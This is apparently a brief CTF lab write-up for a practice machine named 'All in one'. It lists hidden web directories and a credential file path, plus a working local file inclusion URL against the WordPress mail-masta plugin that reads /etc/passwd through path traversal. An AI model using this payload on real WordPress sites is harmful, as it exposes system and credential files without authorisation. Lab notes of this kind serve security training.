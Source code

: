 # All in one
> ExportIP :  10.10.216.98


## Dir Tree
```
[Hidden]
: http://10.10.216.98/hackathons
: http://10.10.216.98/wordpress
```

## LFI Point
```
10.10.216.98/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=../../../../../../etc/passwd
```

## Credential Path
```
/etc/mysql/conf.d/private.txt
```